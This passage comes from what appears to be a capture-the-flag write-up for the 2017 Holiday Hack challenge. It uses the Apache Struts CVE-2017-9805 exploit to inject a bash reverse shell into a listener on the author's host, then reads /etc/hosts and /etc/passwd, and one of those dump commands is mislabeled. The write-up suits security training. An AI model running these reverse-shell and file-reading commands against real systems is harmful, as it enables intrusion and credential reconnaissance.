 ```
root@kali:~# tcpdump -nn
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
05:29:29.604260 IP 35.196.226.77 > xx.xx.xx.xx: ICMP echo request, id 32706, seq 1, length 64
05:29:29.604290 IP xx.xx.xx.xx > 35.196.226.77: ICMP echo reply, id 32706, seq 1, length 64
05:29:30.605486 IP 35.196.226.77 > xx.xx.xx.xx: ICMP echo request, id 32706, seq 2, length 64
05:29:30.605509 IP xx.xx.xx.xx > 35.196.226.77: ICMP echo reply, id 32706, seq 2, length 64
```

In that traffic, I saw that I was actually getting connections back not from the host that the webserver is listening on (`35.185.84.51`), but actually a different IP address (`35.196.226.77`), BUT I had proven that I could get connections out of that server and back to my local host system!

In order to take advantage of that vulnerability, I started a local netcat listener on port 5555:

```
root@kali:~# nc -l -p 5555
```

And in a separate terminal, started a bash reverse shell from that host back to my local host on the listening port 5555

```
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'bash -i >& /dev/tcp/xx.xx.xx.xx/5555 0>&1'
```

Voila! We have a prompt!

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$
```

From there we can grab the /etc/hosts file (to find more targets):

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cat /etc/hosts
cat /etc/hosts
127.0.0.1	localhost l2s dev.northpolechristmastown.com l2s.northpolechristmastown.com
10.142.0.5	mail.northpolechristmastown.com ewa.northpolechristmastown.com
10.142.0.13	eaas.northpolechristmastown.com
10.142.0.6	edb.northpolechristmastown.com
::1		localhost l2s ip6-localhost ip6-loopback
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters

10.142.0.3 hhc17-apache-struts1.c.holidayhack2017.internal hhc17-apache-struts1  # Added by Google
169.254.169.254 metadata.google.internal  # Added by Google
```

And the `/etc/passwd` file:

```
alabaster_snowball@l2s:/tmp/asnow.3lNOwcLHyQVgcfuNB93khBHs$ cat /etc/hosts
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```